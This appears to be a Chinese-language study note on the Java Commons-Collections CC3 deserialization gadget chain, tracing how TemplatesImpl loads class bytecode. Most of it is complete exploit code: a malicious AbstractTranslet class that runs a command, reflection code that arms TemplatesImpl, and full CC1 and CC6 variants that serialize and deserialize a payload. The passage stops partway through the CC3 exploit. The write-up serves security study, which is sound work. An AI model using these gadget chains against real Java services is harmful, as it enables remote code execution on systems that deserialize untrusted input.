









参考 https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/
### 0x01 前言 
cc3与之前所说的 cc1和cc6差距很多，后者在于通过反射调用Runtime.exec()来实现rce
而cc3核心在于动态类加载机制来实现自动执行恶意代码类

### 0x02 环境
- jdk8u65
- Commons-Collections 3.2.1

### 0x03 TemlatesImpl 解析
cc3链核心在于利用类加载机制使用classLoader#defineClass动态加载类字节码从而实现命令执行。
```java
ClassLoader.loadClass()->ClassLoader.findClass->ClassLoader.defineClass()
```

首先是loadClass 其作用在于从已加载的类缓存，父类加载器等位置寻找类其实本质就是双亲委派机制，在前面没有找到的情况下，执行findClass
对于findClass方法
	根据名称或者位置去加载.class字节码然后使用defineclass
同时defineClass只加载类，并不去执行类，若要执行类则需要先使用newInstance方法进行实例化

这里介绍一下TemlatesImpl类加载实现rce的过程原理

创建利用类加载器方便定位defineClass 方法的调用处
```java
package org.example;  
  
public class NetworkClassLoader extends ClassLoader{  
    String host;  
    int port;  
    public Class findClass(String name){  
        byte[] b = loadClassData(name);  
        return defineClass(name,b,0,b.length);  
    }  
    private byte[] loadClassData(String name){  
        //TODO: load class data from network  
        return new byte[0];  
    }  
}
```



发现在package com.sun.org.apache.xalan.internal.xsltc.trax包下的TemplatesImpl.java类中存在此方法定义
```java
Class defineClass(final byte[] b) {  
    return defineClass(null, b, 0, b.length);  
}
```
追溯defineClass被调用处 找到defineTransletClasses

```java
private void defineTransletClasses()  
    throws TransformerConfigurationException {  
  
    if (_bytecodes == null) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);  
        throw new TransformerConfigurationException(err.toString());  
    }  
  
    TransletClassLoader loader = (TransletClassLoader)  
        AccessController.doPrivileged(new PrivilegedAction() {  
            public Object run() {  
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());  
            }  
        });  
  
    try {  
        final int classCount = _bytecodes.length;  
        _class = new Class[classCount];  
  
        if (classCount > 1) {  
            _auxClasses = new HashMap<>();  
        }  
  
        for (int i = 0; i < classCount; i++) {  
            _class[i] = loader.defineClass(_bytecodes[i]);  
            final Class superClass = _class[i].getSuperclass();  
  
            // Check if this is the main class  
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  
                _transletIndex = i;  
            }  
            else {  
                _auxClasses.put(_class[i].getName(), _class[i]);  
            }  
        }  
  
        if (_transletIndex < 0) {  
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);  
            throw new TransformerConfigurationException(err.toString());  
        }  
    }  
    catch (ClassFormatError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
    catch (LinkageError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
}
```




再追溯调用链查找其public方法并且满足可进行newInstance()实例化便于直接调用
```java
private Translet getTransletInstance()  
    throws TransformerConfigurationException {  
    try {  
        if (_name == null) return null;  
  
        if (_class == null) defineTransletClasses();  
  
        // The translet needs to keep a reference to all its auxiliary  
        // class to prevent the GC from collecting them        AbstractTranslet translet = (AbstractTranslet)  
                _class[_transletIndex].getConstructor().newInstance();  
        translet.postInitialization();  
        translet.setTemplates(this);  
        translet.setOverrideDefaultParser(_overrideDefaultParser);  
        translet.setAllowedProtocols(_accessExternalStylesheet);  
        if (_auxClasses != null) {  
            translet.setAuxiliaryClasses(_auxClasses);  
        }  
  
        return translet;  
    }  
    catch (InstantiationException | IllegalAccessException |  
            NoSuchMethodException | InvocationTargetException e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString(), e);  
    }  
}
```


最后定位到
```java
public synchronized Transformer newTransformer()  
    throws TransformerConfigurationException  
{  
    TransformerImpl transformer;  
  
    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,  
        _indentNumber, _tfactory);  
  
    if (_uriResolver != null) {  
        transformer.setURIResolver(_uriResolver);  
    }  
  
    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {  
        transformer.setSecureProcessing(true);  
    }  
    return transformer;  
}
```


综上TemlatesImpl 利用链如图


### 0x04 TemplatesImpl 利用

1、调用实现
```java
TemplatesImpl templates = new TemplatesImpl()
templates.newTransformer();
```

由于 getTransletInstance 方法存在两个限制条件因此不能直接调用
```java
 if (_name == null) return null;  
 if (_class == null) defineTransletClasses();  
```
条件一：不能让_name 变量为null，否则直接返回 null
条件二：需要让_class 变量为null，才能调用 defineTransletClasses方法

同时 defineTransletClasses 调用 defineClass方法时也存在两个限制条件
```java
private void defineTransletClasses()  
    throws TransformerConfigurationException {  
  
    if (_bytecodes == null) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);  
        throw new TransformerConfigurationException(err.toString());  
    }  
  
    TransletClassLoader loader = (TransletClassLoader)  
        AccessController.doPrivileged(new PrivilegedAction() {  
            public Object run() {  
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());  
            }  
        });  
  
    try {  
        final int classCount = _bytecodes.length;  
        _class = new Class[classCount];  
  
        if (classCount > 1) {  
            _auxClasses = new HashMap<>();  
        }  
  
        for (int i = 0; i < classCount; i++) {  
            _class[i] = loader.defineClass(_bytecodes[i]);  
            final Class superClass = _class[i].getSuperclass();  
  
            // Check if this is the main class  
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  
                _transletIndex = i;  
            }  
            else {  
                _auxClasses.put(_class[i].getName(), _class[i]);  
            }  
        }  
  
        if (_transletIndex < 0) {  
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);  
            throw new TransformerConfigurationException(err.toString());  
        }  
    }  
    catch (ClassFormatError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
    catch (LinkageError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
}
```

条件三：不能让_bytecodes变量为 null，必须要存在的类字节码数组，且为空会抛出异常
条件四：不能让_tfactory变量为 null，为空将抛出异常

根据这些条件即可设计出对应的payload
首先编写一个恶意类 Eval.class
```java
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import java.io.IOException;  
  
public class Eval extends AbstractTranslet {  
    public Eval() {  
        try {  
            Runtime.getRuntime().exec("calc");  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
  
    @Override  
    public void transform(DOM document, SerializationHandler[] handlers) {  
    }  
  
    @Override  
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {  
    }  
}
```
这里可以发现编写的Eval恶意类继承了 AbstractTranslet类，并且实现transform方法，这其实也是一个限制条件


需要我们传递的自定义类去继承 AbstractTranslet ，且AbstractTranslet方法要求子类实现两个transform方法，且abstract修饰的类无法直接被实例化。

编写完恶意类后，再去编写exp
```java
核心就是通过反射修改 _name, _bytecodes, _tfactory这些变量的值,从而实现类加载rce

Field nameFiedld = templateClass.getDeclaredField("_name");  
Field bycodeField = templateClass.getDeclaredField("_bytecodes");
Field _factory = templateClass.getDeclaredField("_tfactory"); 
```
```java
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import javax.xml.transform.TransformerConfigurationException;  
import java.io.IOException;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Path;  
import java.nio.file.Paths;  
import java.util.Arrays;  
  
//TIP 要<b>运行</b>代码，请按 <shortcut actionId="Run"/> 或  
// 点击装订区域中的 <icon src="AllIcons.Actions.Execute"/> 图标。  
public class Main {  
    public static void main(String[] args) throws TransformerConfigurationException, IOException, NoSuchFieldException, IllegalAccessException {  
        TemplatesImpl templates = new TemplatesImpl();  
        Class templateClass = templates.getClass();  
        Field nameFiedld = templateClass.getDeclaredField("_name");  
        nameFiedld.setAccessible(true);  
        nameFiedld.set(templates, "name");  
  
        Field bycodeField = templateClass.getDeclaredField("_bytecodes");  
        bycodeField.setAccessible(true);  
        byte[] evil = Files.readAllBytes(Paths.get("D:\\java_code\\cc3_demo\\target\\classes\\org\\example\\Eval.class"));  
        byte[][] codes = new byte[][]{evil};  
        bycodeField.set(templates, codes);  
  
        Field _factory = templateClass.getDeclaredField("_tfactory");  
        _factory.setAccessible(true);  
        _factory.set(templates, new TransformerFactoryImpl());  
        templates.newTransformer();  
    }  
  
}
```



TemplatesImpl 利用在于通过类字节码加载实现命令执行代替了直接使用敏感函数，所以只要可以直接使用Runtime.exec这样的方式进行命令执行同样可以替换为TemplatesImpl类加载利用链实现rce

因此我们可以实现之前cc1和cc6的TemplatesImpl版本的利用链
这里比较懒直接用 Yso 正版链子的 TemplatesImpl 的实现方式
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC1 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC1YsoTemplatesEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("D:\\java_code\\cc3_demo\\target\\classes\\org\\example\\Eval.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates), // 构造 setValue 的可控参数  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(invocationHandler);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```


cc6的实现
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC6 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC6TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("D:\\java_code\\cc3_demo\\target\\classes\\org\\example\\Eval.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 lazyMap.remove("key");  
  
 // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
 Field factoryField = lazyMapClass.getDeclaredField("factory");  
 factoryField.setAccessible(true);  
 factoryField.set(lazyMap, chainedTransformer);  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

### cc3链实现

1、首先目的在于找到调用TemplatesImpl的newTransformer方法的点
idea查找用法


同时发现 TrAXFilter类虽然无法序列化，但是其构造方法可以直接调用Templateslmpl链
```java

_transformer = (TransformerImpl) templates.newTransformer();

public Transformer getTransformer() {  
    return _transformer;  
}
```
所以只要可以调用 TrAXFilter的构造方法即可（例如反射调用）

cc3的作者调用的是InstantiateTransformer类
查找该类的transform方法
```java
public Object transform(Object input) {  
    try {  
        if (input instanceof Class == false) {  
            throw new FunctorException(  
                "InstantiateTransformer: Input object was not an instanceof Class, it was a "  
                    + (input == null ? "null object" : input.getClass().getName()));  
        }  
        Constructor con = ((Class) input).getConstructor(iParamTypes);  
        return con.newInstance(iArgs);  
  
    } catch (NoSuchMethodException ex) {  
        throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");  
    } catch (InstantiationException ex) {  
        throw new FunctorException("InstantiateTransformer: InstantiationException", ex);  
    } catch (IllegalAccessException ex) {  
        throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);  
    } catch (InvocationTargetException ex) {  
        throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);  
    }  
}
```
发现此方法作用就是调用传入类的构造方法，完美符合我们的需求
且InstantiateTransformer 的构造方法传参非常方便
```java
public InstantiateTransformer(Class[] paramTypes, Object[] args) {  
    super();  
 iParamTypes = paramTypes;  
 iArgs = args;  
}
```

exp
```java
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import javax.xml.transform.Templates;  
import javax.xml.transform.TransformerConfigurationException;  
import java.io.IOException;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Path;  
import java.nio.file.Paths;  
import java.util.Arrays;  
  
//TIP 要<b>运行</b>代码，请按 <shortcut actionId="Run"/> 或  
// 点击装订区域中的 <icon src="AllIcons.Actions.Execute"/> 图标。  
public class Main {  
    public static void main(String[] args) throws TransformerConfigurationException, IOException, NoSuchFieldException, IllegalAccessException {  
        TemplatesImpl templates = new TemplatesImpl();  
        Class templateClass = templates.getClass();  
        Field nameFiedld = templateClass.getDeclaredField("_name");  
